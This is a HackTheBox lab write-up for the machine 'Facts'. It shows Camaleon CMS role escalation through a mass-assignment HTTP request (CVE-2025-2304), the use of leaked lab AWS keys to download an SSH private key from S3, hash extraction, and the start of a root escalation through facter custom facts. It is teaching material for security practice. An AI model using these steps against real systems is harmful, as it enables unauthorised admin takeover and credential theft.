+++
title = "Facts - HackTheBox"
date = "2026-05-21"
draft = false
tags = ["writeups", "hackthebox"]
dificulty = "easy"
+++

## Recon
 
Starting with a full service scan:
 
```bash
nmap -vv --reason -sCV -T4 -oN outputs/nmap 10.129.19.102
```



The scan revealed a web server. Based on the response headers and SSL certificate, I added `facts.htb` to `/etc/hosts` and browsed to the site.



## Web Enumeration
 
During manual fuzzing, a request to `/assets/themes/camaleon` leaked the CMS being used:
 
```
GET /assets/themes/camaleon HTTP/1.1
Host: facts.htb
```


[Camaleon CMS](https://github.com/owen2345/camaleon-cms) is a CMS built on Ruby on Rails. The admin panel is available at the default route: ```http://facts.htb/admin/login```



I created a regular user account. The footer immediately disclosed the running version: ``` 2.9.0``` 


## Exploitation - CVE-2025-2304
 
Searching for CVEs affecting Camaleon 2.9.0, I found a mass assignment vulnerability (CWE-915). When a user changes their password, the `updated_ajax` method in `UsersController` is called. The root cause is the use of Rails' `permit!` method, which bypasses Strong Parameters entirely and lets any user-supplied parameter through without filtering:
 
```ruby
def updated_ajax
  @user = current_site.users.find(params[:user_id])
  @user.update(params.require(:password).permit!)
  ...
end
```
 
This means a low-privileged user can inject a `role` parameter into what looks like a password change request and promote themselves to admin:
 
```http
POST /admin/users/5/updated_ajax HTTP/1.1
Host: facts.htb
 
password[password]=newpass&password[role]=admin
```
 
I wrote a Python script to automate the full flow (login, CSRF token extraction, role escalation):
 
[CVE-2025-2304-POC](https://github.com/askiesec/CVE-2025-2304-POC)

With admin access confirmed, I browsed to the site settings panel: ```http://facts.htb/admin/settings/site```



## AWS Credential Exposure
 
The admin settings panel exposed the full AWS configuration of the machine in plaintext, including access keys, secret keys, region, and bucket name.



## SSH Key and Credential Cracking
 
Using the AWS credentials I accessed the S3 bucket and retrieved a private SSH key. After setting the correct permissions:

```zsh
# Configure AWS profile with leaked credentials
$ aws configure --profile facts.htb
AWS Access Key ID: AKIAF4SD97D8C66E148F
AWS Secret Access Key: NkFNLgWn57jFtQS8cTNk40ReIXuZ3CfsUh5e5Ywp
Default region name: us-east-1
Default output format: json

# Point to the machine's S3-compatible endpoint
$ aws configure set endpoint_url http://facts.htb:54321

# List available buckets
$ aws s3 ls
2025-09-11 09:06:52 internal
2025-09-11 09:06:52 randomfacts

# List contents of the internal bucket
$ aws s3 ls internal/.ssh/
2026-06-06 13:48:10    82 authorized_keys
2026-06-06 13:48:10   464 id_ed25519

# Download the private key
$ aws s3 cp s3://internal/.ssh/id_ed25519 id_ed25519
download: s3://internal/.ssh/id_ed25519 to ./id_ed25519

# Fix permissions
$ chmod 600 id_ed25519

# Convert to john format
$ ssh2john id_ed25519 > ssh.hash
```





## Privilege Escalation



The user could run `facter` as root without a password. According to [GTFOBins](https://gtfobins.github.io/gtfobins/facter/), `facter` supports loading custom facts from an arbitrary directory via `--custom-dir`. A custom fact is just a Ruby file, so this effectively gives arbitrary code execution as root.
 
Creating the malicious custom fact in `/dev/shm`:


